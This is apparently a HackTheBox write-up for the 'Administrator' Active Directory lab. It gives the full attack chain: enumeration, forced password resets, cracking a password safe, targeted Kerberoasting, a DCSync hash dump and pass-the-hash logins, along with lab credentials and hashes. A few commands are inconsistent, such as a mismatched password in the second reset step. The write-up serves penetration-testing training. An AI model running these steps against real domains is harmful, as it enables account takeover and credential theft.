

## Intro

This is a WINDOWS machine of medium difficulty, named Administrator, and our final goal is to become the admin of the system (no shit sherlock). 
Without further ado, lets dive in!


Machine Information:
```
As is common in real life Windows pentests, you will start the Administrator box with credentials for the following account: Username: Olivia Password: ichliebedich, so its an assumed breach scenario
```
Tags: #windows #AD #AssumedBreach  #Kerberoasting  #DCsync #OSCPpath 

---
# Reconnaissance 

### Nmap scan

#### command
```
nmap -sSCV 10.10.11.42
```
#### usage breakdown
the -sSCV parameter performs:
	**`-sS`** → **Stealth SYN Scan (Half-Open Scan)
	`-sC`** → **Run Default NSE Scripts
	`-sV`** → **Version Detection**
	
#### Output
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-26 17:28 EDT
Nmap scan report for 10.10.11.42
Host is up (0.048s latency).
Not shown: 987 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-03-27 04:28:21Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-03-27T04:28:28
|_  start_date: N/A
|_clock-skew: 6h59m57s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.78 seconds
```
###### Add machine to etc hosts
```
echo '10.10.11.42 Administrator.htb' | sudo tee -a /etc/hosts
```

### FTP

okay, lets first try ftp with the given users creds, 
after trying it i found out that user Olivia cant login to ftp, so lets move on to the rest of the open ports and their associated services

(ch3ckm8)        (table)
### (╯°□°）╯︵ ┻━┻

narrator: no, no don't give up yet, its too early (try giving up later xd)

### SMB enumeration

We are given (from the machine's description) creds for an account on that host, so lets use crackmapexec since smb service is available according to our nmap scan to enumerate the smb service

```
crackmapexec smb Administrator.htb -u "Olivia" -p "ichliebedich" --rid-brute | grep SidTypeUser
```
#### usage breakdown:
###### 1. At first we specify the known user's creds
###### 2. why use ```--rid-brute``` ? 
First, lets explain what is an rid, it stands for Relative identifier, and its a number assigned to objects upon creation, and user accounts are such objects.
	So this parameter when used on crackmapexec, enumerates the rids in order to extract user and group accounts from a windows host.
###### 3. what about ```grep SidTypeUser```?
This is used to "filter" only the user accounts on our command's output, and not information such as groups and other irrelevant (for now) information  

--> Overall, by using crackmapexec with the parameters mentioned below, we use a known user's creds (olivia) in order to "log in" and enumerate VALID users on the host.

#### Output

so the output we get looks sth like this, as we can see Olivia can login to winrm (in contrast with ftp)
-> what we actually see here, is that the domain is  the ```administrator.htb```, along with every user and their respective RID
```
SMB    administrator.htb 445    DC     500: ADMINISTRATOR\Administrator (SidTypeUser)
SMB    administrator.htb 445    DC     501: ADMINISTRATOR\Guest (SidTypeUser)
SMB    administrator.htb 445    DC     502: ADMINISTRATOR\krbtgt (SidTypeUser)
SMB    administrator.htb 445    DC     1000: ADMINISTRATOR\DC$ (SidTypeUser)
SMB    administrator.htb 445    DC     1108: ADMINISTRATOR\olivia (SidTypeUser)
SMB    administrator.htb 445    DC     1109: ADMINISTRATOR\michael (SidTypeUser)
SMB    administrator.htb 445    DC     1110: ADMINISTRATOR\benjamin (SidTypeUser)
SMB    administrator.htb 445    DC     1112: ADMINISTRATOR\emily (SidTypeUser)
SMB    administrator.htb 445    DC     1113: ADMINISTRATOR\ethan (SidTypeUser)
SMB    administrator.htb 445    DC     3601: ADMINISTRATOR\alexander (SidTypeUser)
SMB    administrator.htb 445    DC     3602: ADMINISTRATOR\emma (SidTypeUser)
```

-----------
### AD enumeration

So, earlier we found the users, but we also need to collect (more) AD data from a domain controller (which is yet unknown) in a given domain (administrator.htb)
#### command
```shell
bloodhound-python -u Olivia -p 'ichliebedich' -c All -d administrator.htb -ns 10.10.11.42
```
#### usage breakdown:
1. At first we specify the known user's creds
2. we use the **-d** parameter to specify the domain
3. we use **-ns** to specify the nameserver (DNS server) to 10.10.11.42 (machine's IP)
	we need to specify the DNS server, because querying AD over LDAP requires DNS resolution to locate the DC
	
-> overall, we login to the given domain with the given creds for an account, collect AD data (users, groups, computers, permissions, ACLs, etc.), use the machine's IP as the DNS server to resolve the DC's IP and lastly save the data in json format, which can later be imported to BloodHound for visualization.
#### output
```
INFO: Found AD domain: administrator.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (dc.administrator.htb:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: dc.administrator.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc.administrator.htb
INFO: Found 11 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: dc.administrator.htb
INFO: Done in 00M 11S
```
###### add the DC to etc hosts
```
echo '10.10.11.42 Administrator.htb dc.administrator.htb' | sudo tee -a /etc/hosts
```

# BloodHound visualization


As we can see in the pics above, we reach to the conclusion that Olivia has **GenericAll** permission towards Michael, and Michael has **ForceChangePassword** permission towards Benjamin, so our path to exploit this looks like this: (we have marked olivia as owned here)

{ *Olivia* }-----( GenericAll )----->{ *Michael* }-----( ForceChangePassword )----->{ *Benjamin* }

##### But what do those permissions actually mean?
- **GenericAll**
	Grants full control over an object, so we are talking about one of the most powerful permissions in AD. An account with such permissions can:
	✅ **Reset the password** of a user account (including admin accounts).
	✅ **Modify group memberships** (e.g., add itself to Domain Admins).  
	✅ **Modify object attributes** (like Service Principal Names for Kerberoasting).  
	✅ **Run remote code** if the target is a computer account.

- **ForceChangePassword**
	pretty self explanatory, is should be noted though that it allows an account to **change another user's password** **without knowing the old password**.

----
### Changing Passwords with BloodyAD 

#### Step 1: Change Michael's Password (Olivia -> Michael)
Use Olivia's account to change Michael's pass
```
bloodyad --host "10.10.11.42" -d "Administrator.htb" -u "olivia" -p "ichliebedich" set password "michael" "TheBestPasswordYouHaveEverSeenOrHeard"
```
#### Step 2: Change Benjamin's Password (Michael -> Benjamin)
Use Michael's account (with the new pass we set earlier) to change Benjamin's pass
```
bloodyad --host "10.10.11.42" -d "Administrator.htb" -u "michael" -p "TheBestPasswordYouHaveEverSeen" set password "TheSecondBestPasswordYouHaveEverSeenOrHeard"
```

### Step 3: login to winrm using Benjamin's creds

Now comes the tricky part , user benjamin cant login to winrm !!

(ch3ckm8)       (table)
### (╯°□°）╯︵ ┻━┻ 

narrator: okay apparently he does not like this table, dude relax, put the table down, keep pro-hacking

after inspection through his AD permissions it appears that he has NO permission towards other users:


### Log in to FTP as Benjamin

connect
```
ftp administrator.htb
```
insert creds
```
user: Benjamin
pass: "TheSecondBestPasswordYouHaveEverSeenOrHeard"
```
run ftp commands
```
ls
```
we see this, appears to be some backup file
```
Backup.psafe3
```
lets download it locally, then we can exit, nothing further valuable found
```
get Backup.psafe3
```

##### What is a psafe3 file?
These kind of files are encrypted password safe files! 
used by PasswordSafe app (https://passwordsafe.app/), so obviously it cant be read in this form, we must use a tool to obtain hash from it, i chose **pwsafe2john** tool
```
pwsafe2john Backup.psafe3 
```
we get the following hash:
```
Backu:$pwsafe$*3*4ff588b74906263ad2abba592aba35d58bcd3a57e307bf79c8479dec6b3149aa*2048*1a941c10167252410ae04b7b43753aaedb4ec63e3f18c646bb084ec4f0944050
```
##### lets decrypt the obtained hash using johntheripper
lets try using the most commonly used wordlist "rockyou" and see what we get 
```
john psafe3hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
the decryption is successful, and we get the following pass:
```
tekieromucho
```

##### Unlock the password safe

To sum up shortly, we got:
- The actual safe backup file (pwsafe3)
- The password that unlocks it

-> so now we can install the app on our attacker machine, and open the .psafe3 file using the obtained pass, then we get the 3 user's passwords
```
alexander
UrkIbagoxMyUGw0aPlj9B0AXSea4Sw
```

```
emily
UXLCI5iETUsIBoFVTj8yQFKoHjXmb
```

```
emma
WwANQWnmJnGV07WQN8bMS7FMAbjNur
```

#### FootHold

Since we have the passwords for 3 users, we should figure out how to login to them on the target host, using their creds.

By looking again at the results of the nmap scan we performed initially, we see open port 5985, and this only means one thing: **WinRM**

Lets try to connect to emily user on the target host using winrm:
```
evil-winrm -i Administrator.htb -u emily -p "UXLCI5iETUsIBoFVTj8yQFKoHjXmb"
```
After some inspection, we see that we can grab the user flag from emily's Desktop folder
```
type \Desktop\user.txt
```

#### so now what?

Now that we have gained access (foothold) to one user (emily), lets see what permissions our current logged in user has over others.

Looking at bloodhound, our path tp exploiting this should look like this:


#### Check AD permissions

As we can see on bloodhound, emily has "GenericWrite" permission over ethan


#### Kerberoasting

-> Refers to an attack tehinique where the attacker extracts Kerberos Service Tickets (TGS) and later attempts to crack them offline, in order to then obtain the plaintext creds.
It must be noted that A **domain user** can request **ANY service ticket**.

we will use this python script, which speeds up the process of kerberoasting attack 
https://github.com/ShutdownRepo/targetedKerberoast
```
python targetedKerberoast.py -u "emily" -p "UXLCI5iETUsIBoFVTj8yQFKoHjXmb" -d "Administrator.htb" --dc-ip 10.10.11.42
```
and we get ethan's hash
```
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[+] Printing hash for (ethan)
$krb5tgs$23$*ethan$ADMINISTRATOR.HTB$Administrator.htb/ethan*$15ec7606ffa3297b86b280475f514f9c$2e4d87fb991fa421183d34d1f57dc6eff6cf90d47f165e99e8caa4042a91278d9ae1897d9b5bd1c4938ae952b02b253b63207405bb7f66b8509c614b4e8a0fe9bff6e4ae67a8c6df5ce80d08d1e2f0cc78389f94289f4fe121f402cf1d8a411db8e49116ae92534989d03f740899d01f2f264273ad4da38a5537fde4c4d629961839c4a7916a3f246240ce1e50602d648a17d05384131d1729c9debfe576e9a37bf347899896e9df8bec3b2ac16110da971e0142ef5435bb73ee2fca6baf923ad26540ff42b735d73ff730cdb075026d0646247db541b3c824a2c8fef6c72572d06c64f341778b0456cbf6376f22bc444228cc4fef86c8bb62093c7081daf6ab75c809508c2ca0ab0fe679e1dbbd753441316d58d1245fdcd9e1b8ef58faa2c71ae319296eeda923da7a42677e65a7ab048b694ea8f880bb021740f94eb4f9b1416d37cd75f41c2b9d045370890611857ae2576e117c1ca52de93918d7104e95c95cd130b2d06805d6c99d5c13b61ab0040f02117accc14a8ad06e2f6d66103c07e9e96a6a2a94f4a12e34e9c3f8b46a305e778a17958128465967076c0365d7c87bb6c517d8ab27d1a89f582a72e303bf0ac54c1c7d2fbe80b2500cab320cdbac803fdfa2c8a54e8db9870a5dd73193a85878752373da71d223e8cdd47dcd2ba3c3b353bc5f1af493da902c90b5a26a218aa6875ff9ffa5bc8bc2f1f90d65502819f01f3c8539950c1d905b2bd803145cfd603a6d75a654ce2c83210b59ed9e6c232841a7d6f5e706072e8e9ed38baaf4c04640841726e61a7f484e900ef1515480ba9b337f80c9cc9d0f974aff33b83897d340a925ab084d60914f708eb5cb917c91ecb362b490f2da965fc476956c7f2d9968ed61b10bdacd2c371955253ebbddfbfc97ee2b38badec0413bca0ec1e11aa44429c6d3d9ab73aaa4a1425fbf23123260c42ed28229e3b766ed0c5682eb6b097b315f72b8ce387978525b3800229f5a0980de2b1f947168c6956d06c8ad9178aefd34addba5e3c9f719619aa29301579cd426415ae8c9d832a93ce3beccf70b58340e949b12e9e6d9d7ef80a3b5852f0e372ba786237cb3f6b2a2738a3b70fd070f5ecd59e5cab52cb145113fc0f4832ba7adc297d6a01167773f9a9a3a5302a0c6a672b1437372d349752350778db5dcdb5f986a7b3110d2584d12a21d32960c061d0f5a60f182257b8954fcd13936b14ef1c6cd5396b2d3549971d83ef116fe4e65916c73f7d231e1c7c99bd82854b152c016f663ecc4c962a30dce3569f088398f8d230996901bfa72f3427ede4d73d1f7b8828fe098c958867c3bd9017002c3e74fbe73650d05228039b57c916ae017e89859afb79c9fb951c815476495819840ae9468fdb66d6ee687de54fed4724c77eee4bd4f9b4995005f644e2b1a58f87deb91088ec9e318fe9d1f6b34a33f6e2e001c2a0e3c0d7f463376a5e3827fadf2a88d6f79d73188b207e06b3207700a5929dd3b6d7fe47bb71402d1881a49a990f0472d912937b66825
```

##### decrypt the obtained ethan's hash
```
john ethanhash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
and we get the pass:
```
limpbizkit
```
so now that we have another user's pass, lets repeat the process we did before, by checking this user's permissions over other users

#### Check AD permissions

As we can see on bloodhound, ethan has "DCSync" rights over the domain.


##### what this means to progress

We see that ethan has permissions over the domain (administrator), not any user, so thats our first clue.
Secondly, we must understand what those permissions allow us to do, and with a little research we find that permissions "**Getchanges**" and "**GetChangesAll**"  allow us to perform a **DCsync attack** !
https://bloodhound.specterops.io/resources/edges/dc-sync

-> **DCsync** is an attack that allows an adversary to simulate the behavior of a domain controller (DC) and retrieve password data via domain replication

So with this kind of attack, we can obtain the Administrator's hash, in order to crack it (decrypt it) offline.

For this attack, we are going to use **impacket-secretsdump** for the following reasons:
- at first it uses the user's creds to connect remotely to the DC via smbexec/wmiexec and obtain high permissions
- then exports the hash of local accounts from the registry
- exports all domain user's hashes through DCsync or from NTDS.dit file
	The **ntds.dit** file functions as the core database that powers Active Directory, containing essential data like user credentials, group policies, security settings, and domain configurations 
	(https://www.cayosoft.com/ntds-dit/)
- allows connections to the DC from computers outside the domain 

# Privesc

So, with the aforementioned tool using ethan's creds:
```
impacket-secretsdump "Administrator.htb/ethan:limpbizkit"@"dc.Administrator.htb"
```
we obtain Administrator's hash
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3dc553ce4b9fd20bd016e098d2d2fd2e:::
```

then, we follow the standard procedure, via evil-winrm to login to user Administrator with the hash
```
evil-winrm -i administrator.htb -u administrator -H "3dc553ce4b9fd20bd016e098d2d2fd2e"
```
finally we get the root flag!
```
type \Desktop\ root.txt
```

(table down)
┬─┬ノ( º _ ºノ)

-----------
# Conclusion

This machine felt kinda straightforward and like an introductory machine to AD related machines.

After the initial smb enumeration and ad enumeration, the rest of the activities were easier to follow and execute. 

narrator: "It has been foretold by an ancient prophecy, the arrival of the security analyst who shall flip the table when things go wrong, unleashing chaos in the face of failed exploits. And yet, when the battle is won, and the hack is complete, they shall calmly return the table to its rightful place, as if nothing ever happened."

------
# Sidenotes

I'm not a hacker, I'm just an analyst with excessive caffeine in my bloodstream...
oh and mr robot was my 3rd cousin (i know not fair) ## ¯\_(ツ)_/¯

WARNING! pwn badge flexing below:
https://www.hackthebox.com/achievement/machine/284567/634


If you reached that far, you must be a big fan, make sure to check my yt channel for more:
https://www.youtube.com/watch?v=xvFZjo5PgG0
